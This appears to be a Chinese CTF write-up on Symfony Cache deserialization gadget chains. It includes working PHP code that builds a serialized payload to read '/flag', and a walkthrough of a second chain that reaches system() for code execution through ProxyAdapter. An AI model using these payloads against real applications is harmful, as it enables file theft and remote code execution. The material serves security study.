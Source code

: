 ![image-20211203170020908](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211203170020908.png)

![image-20211203165959349](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211203165959349.png)

前两个类都是Symfony\Component\Cache\Adapter命名空间下的，但是CacheItem是Symfony\Component\Cache下的，所以要再引入它，use

```php
<?php
namespace Symfony\Component\Cache{
    final class CacheItem{
    }
}
namespace Symfony\Component\Cache\Adapter{
    use Symfony\Component\Cache\CacheItem;

    class PhpArrayAdapter{
        private $file='/flag';
    }
    class TagAwareAdapter{
        private $deferred;
        private $pool;
        public function __construct(){
            $this->deferred = array('amiz' => new CacheItem());
            $this->pool = new PhpArrayAdapter();
        }
    }
    $a = new TagAwareAdapter();
    echo urlencode(serialize($a));
}
```

## 链子2 - rce

回到前面在相同命名空间下找`saveDeferred()`的地方，还有另一个类也有同样的方法 vendor/symfony/symfony/src/Symfony/Component/Cache/Adapter/ProxyAdapter.php

![image-20211204102722908](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204102722908.png)

跟进`doSave()`

![image-20211204102953831](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204102953831.png)

223行可以动态调用函数，`setInnerItem`可控 我们可以调用`system()`，接下来确认它调用的两个参数可不可控

对于`$item`，是调用函数`doSave()`函数时传入的参数，也就是`saveDeferred()`时的参数，也就是我们传入的数组，可控

![image-20211204103425511](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204103425511.png)

对于`$innerItem`有这样一个if判断

![image-20211204103829313](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204103829313.png)

光看这个判断肥肠的突兀，还要结合207行的`$item = (array) $item;`，它将一个类强行转换成数组，而后面跟着的这个if判断就是为了解决类中原有的 *protected*的属性冲突，所以需要在相同的命名空间里接着找一个类，包含`pollHash`和`innerItem`属性，最终还是找到了CacheItem（前面也是它
